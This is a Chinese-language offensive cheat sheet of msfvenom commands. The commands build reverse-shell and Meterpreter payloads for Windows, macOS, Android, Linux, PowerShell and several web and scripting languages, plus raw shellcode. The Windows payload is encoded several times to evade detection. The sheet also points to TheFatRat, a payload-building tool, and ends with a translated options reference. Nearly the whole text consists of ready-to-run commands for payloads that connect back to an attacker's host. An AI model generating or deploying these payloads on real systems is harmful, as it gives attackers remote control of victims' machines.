


# msfvenom 常用生成 Payload 命令

### windows:
```code
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp
LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
```
### mac:
```code
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f macho -o payload.macho
```

### android:
```code
//需要签名
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f apk -o payload.apk
```

### powershell:
```code
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```

### linux:
```code
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf
```

### php:
```code
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### aspx:
```code
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
```
### jsp:
```code
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.jsp
```

### war:
```code
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw - o payload.war
```

### nodejs:
```code
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.js
```

### python:
```code
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py
```

### perl:
```code
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.pl
```
### ruby:
```code
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.rb
```

### lua:
```code
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.lua
```

### windows shellcode:
```code
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### linux shellcode:
```code
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### mac shellcode:
```code
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### 便捷化payload生成：

项目地址：
https://github.com/Screetsec/TheFatRat

```code
root@John:~/Desktop# git clone https://github.com/Screetsec/TheFatRat.git
//设置时需要挂墙
```  
  

  

  

  


### 附录：

中文使用说明：
```code
Options:

-p, --payload <payload> 使用指定的payload
--payload-options 列出该payload参数
-l, --list [type] 列出所有的payloads
-n, --nopsled <length> 为payload指定一个 nopsled 长度
-f, --format <format> 指定payload生成格式
--help-formats 查看所有支持格式
-e, --encoder <encoder> 使用编码器
-a, --arch <arch> 指定payload构架
--platform <platform> 指定payload平台
--help-platforms 显示支持的平台
-s, --space <length> 设定payload攻击荷载的最大长度
--encoder-space <length> The maximum size of the encoded payload

(defaults to the -s value)
-b, --bad-chars <list> 指定bad-chars 如: '\x00\xff'
-i, --iterations <count> 指定编码次数
-c, --add-code <path> 指定个win32 shellcode 文件
-x, --template <path> 指定一个 executable 文件作为模板
-k, --keep payload自动分离并注入到新的进程
-o, --out <path> 存放生成的payload
-v, --var-name <name> 指定自定义变量
--smallest Generate the smallest possible payload
-h, --help 显示帮助文件
```


<p align="right">--By  Micropoor </p>
